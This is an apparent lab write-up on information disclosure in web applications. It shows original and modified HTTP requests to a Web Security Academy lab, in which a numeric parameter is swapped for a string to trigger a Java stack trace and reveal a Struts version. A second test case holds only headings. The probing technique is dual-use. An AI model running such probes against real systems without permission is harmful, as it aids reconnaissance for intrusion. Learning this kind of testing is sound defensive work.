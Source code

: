 # Information Disclosure
Information disclosure, also known as information leakage, is when a website unintentionally reveals sensitive information to its users.

## Examples of Information Disclosure
  - Revealing the names of hidden directories, their structure, and their contents via a robots.txt file or directory listing
  - Providing access to source code files via temporary backups
  - Explicitly mentioning database table or column names in error messages
  - Unnecessarily exposing highly sensitive information, such as credit card details
  - Hard-coding API keys, IP addresses, database credentials, and so on in the source code
  - Hinting at the existence or absence of resources, usernames, and so on via subtle differences in application behavior

---

## Test Case I
### Error Messages
- Testing URL query parameters for information disclosure.
- Modify the data type of the query parameter value from an integer to a string value.
- Version information disclosed in server response.

**Original Request**
```HTTP
GET /product?productId=1 HTTP/1.1
Host: 0a23001803408c45805f80c10041009a.web-security-academy.net
Cookie: session=9uTYTHDdqFqCe9H1u9mwziP4MnrUsE2n
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a23001803408c45805f80c10041009a.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

**Modified Request**
```HTTP
GET /product?productId=TEST HTTP/2
Host: 0a23001803408c45805f80c10041009a.web-security-academy.net
Cookie: session=9uTYTHDdqFqCe9H1u9mwziP4MnrUsE2n
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a23001803408c45805f80c10041009a.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

**Server Response**
```CSS
HTTP/2 500 Internal Server Error
Content-Length: 1677

Internal Server Error: java.lang.NumberFormatException: For input string: "TEST"
	at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:67)
	at java.base/java.lang.Integer.parseInt(Integer.java:668)
	at java.base/java.lang.Integer.parseInt(Integer.java:786)
	at lab.v.k.v.g.B(Unknown Source)
	at lab.s.n.n.l.q(Unknown Source)
	at lab.s.n.c.x.z.u(Unknown Source)
	at lab.s.n.c.t.lambda$handleSubRequest$0(Unknown Source)
	at x.d.f.k.lambda$null$3(Unknown Source)
	at x.d.f.k.j(Unknown Source)
	at x.d.f.k.lambda$uncheckedFunction$4(Unknown Source)
	at java.base/java.util.Optional.map(Optional.java:260)
	at lab.s.n.c.t.w(Unknown Source)
	at lab.server.o.z.p.Q(Unknown Source)
	at lab.s.n.t.y(Unknown Source)
	at lab.s.n.t.Q(Unknown Source)
	at lab.server.o.z.u.r.z(Unknown Source)
	at lab.server.o.z.u.s.lambda$handle$0(Unknown Source)
	at lab.v.y.n.d.u(Unknown Source)
	at lab.server.o.z.u.s.V(Unknown Source)
	at lab.server.o.z.c.a(Unknown Source)
	at x.d.f.k.lambda$null$3(Unknown Source)
	at x.d.f.k.j(Unknown Source)
	at x.d.f.k.lambda$uncheckedFunction$4(Unknown Source)
	at lab.server.w.U(Unknown Source)
	at lab.server.o.z.c.O(Unknown Source)
	at lab.server.o.o.r.f(Unknown Source)
	at lab.server.o.k.g(Unknown Source)
	at lab.server.o.w.g(Unknown Source)
	at lab.server.s2.J(Unknown Source)
	at lab.server.s2.Z(Unknown Source)
	at lab.q.i.lambda$consume$0(Unknown Source)
	at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1136)
	at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:635)
	at java.base/java.lang.Thread.run(Thread.java:833)

Apache Struts 2 2.3.31
```

---

## Test Case II
### Error Messages
- Testing URL query parameters for information disclosure.
- Modify the data type of the query parameter value from an integer to a string value.
- Version information disclosed in server response.
